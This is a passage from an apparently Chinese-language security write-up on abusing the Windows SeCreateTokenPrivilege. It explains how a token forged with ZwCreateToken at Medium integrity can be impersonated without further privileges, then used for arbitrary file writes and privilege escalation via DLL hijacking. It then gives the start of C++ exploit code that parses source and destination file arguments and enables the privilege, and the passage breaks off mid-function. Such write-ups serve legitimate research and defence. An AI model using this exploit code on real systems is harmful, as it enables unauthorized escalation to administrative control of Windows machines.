 我们关注最后一条规则 “*IF the process integrity level >= the token integrity level AND the process user == token user THEN allow ELSE restrict the token to “Identification” level (no privileged actions possible)*”，也就是说，只要令牌是给我们当前用户的，并且完整性级别小于或等于当前进程完整性级别，我们就应该能够在没有任何特殊权限的情况下模拟令牌。令牌的完整性级别可以在构造令牌时设置。我们只需将完整性级别设置为 “Medium”，然后调用 `SetThreadToken()` 函数将当前线程的令牌替换为新令牌即可。

如下图所示，本地用户 John 拥有 SeCreateTokenPrivilege 特权。

![image-20230706124651014](https://wh0amitz.oss-cn-beijing.aliyuncs.com/img/image-20230706124651014.png)

我们可以通过 `ZwCreateToken()` 函数创建一个提升权限的模拟令牌，使用该令牌创建线程实现任意文件写入，最终通过 DLL 劫持等方法实现提权。下面给出可供参考的利用代码。

### Main Fcuntion

主函数首先从命令行获取 `-s` 和 `-d` 两个参数，分别对应后续文件写入的源文件和目的文件，然后通过 `GetCurrentProcess()` 和 `OpenProcessToken()` 函数打开当前进程的句柄，如下所示。

```c++
int wmain(int argc, wchar_t* argv[])
{
	HANDLE hToken = NULL;
	HANDLE pElevatedToken = NULL;
	HANDLE hThread = NULL;
	LPCWSTR sourceFile = NULL;
	LPCWSTR destFile = NULL;

	while ((argc > 1) && (argv[1][0] == '-'))
	{
		switch (argv[1][1])
		{
		case 's':
			++argv;
			--argc;
			if (argc > 1 && argv[1][0] != '-')
			{
				sourceFile = (LPCWSTR)argv[1];
			}
			break;
		case 'd':
			++argv;
			--argc;
			if (argc > 1 && argv[1][0] != '-')
			{
				destFile = (LPCWSTR)argv[1];
			}
			break;
		default:
			wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
			return 0;
		}

		++argv;
		--argc;
	}

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
	{
		wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
		return 0;
	}

	// Enable SeCreateTokenPrivilege for the current process token.
	if (!EnableTokenPrivilege(hToken, SE_CREATE_TOKEN_NAME))
	{
		wprintf(L"[-] Failed to enable SeCreateTokenPrivilege for the current process token.\n");
		return 0;
```